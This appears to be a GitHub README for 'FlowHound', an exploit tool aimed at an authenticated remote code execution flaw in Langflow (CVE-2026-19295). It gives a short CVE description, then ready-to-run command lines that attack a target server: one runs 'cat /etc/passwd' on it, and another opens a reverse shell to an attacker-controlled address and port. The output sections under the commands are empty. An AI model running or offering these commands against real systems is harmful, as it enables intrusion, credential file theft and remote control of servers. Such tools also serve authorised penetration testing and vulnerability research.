




# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code under the context of the running Langflow process by saving a flow with a crafted type field value and triggering a build of a wrapper flow that references it. This allowed privilege escalation from "authenticated flow user" to arbitrary OS-level command execution under the server process identity, bypassing the LANGFLOW_ALLOW_CUSTOM_COMPONENTS=false policy control.

**Impacted Versions:** 1.0.0 through 1.11.1

# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-19295
```



## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-19295 --command "cat /etc/passwd"
```




## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-19295 --reverse_shell 192.168.1.5:4444
```

### FlowHound CLI Output



### Ncat Output

